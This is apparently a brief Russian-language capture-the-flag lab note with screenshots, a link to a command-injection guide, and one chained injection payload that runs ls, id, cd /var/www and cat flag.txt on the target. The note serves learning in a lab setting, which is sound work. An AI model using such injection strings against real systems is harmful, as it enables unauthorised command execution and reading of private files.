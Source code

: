 
 ![Pasted image 20241216171142](https://github.com/user-attachments/assets/b0ca204b-dba3-4760-adb4-ddd9fe30b96e)


 ![Pasted image 20241216171208](https://github.com/user-attachments/assets/25fe703d-8bb3-4ffd-9df9-8b903854c491)



можно попробовать Command inject (CI) ([Внедрение команд | ХакХитрости](https://book.hacktricks.xyz/pentesting-web/command-injection)) 

![Uploading Pasted image 20241216171358.png…]()

ls || id; cd /var/www || id; ls || id; cat flag.txt || id; ls || id; pwd || id
